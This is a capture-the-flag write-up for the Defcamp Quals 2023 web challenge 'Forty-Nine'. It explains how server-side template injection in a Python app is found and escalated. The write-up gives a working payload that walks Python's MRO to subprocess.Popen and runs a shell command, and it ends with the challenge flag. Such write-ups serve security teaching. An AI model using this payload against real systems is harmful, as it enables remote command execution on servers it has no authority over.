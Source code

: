 ```yaml
---
title: Forty-Nine
date: 2023-10-22T14:55:41-04:00
description: Writeup for Forty-Nine [Defcamp Quals 2023]
author: Koyossu
tags:
- web
draft: false
---
```

___

## Challenge Description

We have a random fact generator that might have some problems sanitizing the input. It may not be as simple as 7*7.

Flag format: CTF{sha256}

## Intuition

Having seen the funny description we know that this is yet another jail escape. Let's look at the main page and see what all the fuss is about.

![img.png](/images/defcamp_quals_2023/fortyNine1.png)

So we can understand the following: the web page takes our input and that the server is in python. Lovely stuff.

From here we can try to do SSTI using one of the 2 python template escapes, the `{{` (curly brackets) or `{% %}`

After some tries we see this.

![img.png](/images/defcamp_quals_2023/fortyNine2.png)

Bingo! We now know this is for sure SSTI and all we have to do is call system and get the flag from the machine. Hopefully, the challange did not have any input sanitization or restrictions.

## Solution

All we needed to do is reach __builtins__ or something that has any function related to system calls and shell spawning. We will go step by step using common techniques, like 
leveraging python objects and MRO (method resolution order), trying to access the above mentioned methods.

Let the fun begin :)

Using a basic technique 
```python
{% print( ''.__class__.__mro__[1].__subclasses__()) %}
```
![img.png](/images/defcamp_quals_2023/fortyNine3.png)

Bingo, we have access to `<class 'subprocess.Popen'>` in this array, so we can call popen and do cat the flag. 

Final Payload:
```python
{% print( ''.__class__.__mro__[1].__subclasses__()[367]("cat flag.txt", shell=True, stdout=-1).communicate()) %}
```
![img.png](/images/defcamp_quals_2023/fortyNine4.png)


### Flag
Here is the final flag, and a proof from the website :)

![img.png](/images/defcamp_quals_2023/fortyNineFlag.png)

`CTF{f1cb7344129bcc51480407f1f381cb994c155194fdde34b827cc48c9f4d3040e}`

